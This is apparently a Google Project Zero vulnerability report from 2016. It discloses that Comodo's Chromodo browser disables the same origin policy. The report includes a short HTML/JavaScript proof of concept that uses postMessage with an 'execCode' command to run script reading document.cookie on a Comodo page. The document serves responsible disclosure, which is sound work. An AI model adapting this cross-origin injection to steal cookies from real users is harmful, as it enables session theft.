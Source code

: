 Comodo: Comodo "Chromodo" Browser disables same origin policy, Effectively turning off web security.
1 of 4
Project Member Reported by taviso@google.com, Jan 22 2016 Back to list
Issue description
When you install Comodo Internet Security, by default a new browser called Chromodo is installed and set as the default browser. Additionally, all shortcuts are replaced with Chromodo links and all settings, cookies, etc are imported from Chrome. They also hijack DNS settings, among other shady practices.

https://www.comodo.com/home/browsers-toolbars/chromodo-private-internet-browser.php

Chromodo is described as "highest levels of speed, security and privacy", but actually disables all web security. Let me repeat that, they **_disable the same origin policy_**.... ?!?..

To reproduce, do something like this:

<html>
<head></head>
<body>
<script>
function steal_cookie(obj)
{
    // Wait for the page to load
    setTimeout(function() {
        obj.postMessage(JSON.stringify({
            command: "execCode",
            code:    "alert(document.cookie)",
        }), "*");
    }, 2000);
}
</script>
<a href="javascript:steal_cookie(window.open('https://ssl.comodo.com/'))">Click Here</a>
</body>
</html>

This bug is subject to a 90 day disclosure deadline. If 90 days elapse
without a broadly available patch, then the bug report will automatically
become visible to the public.
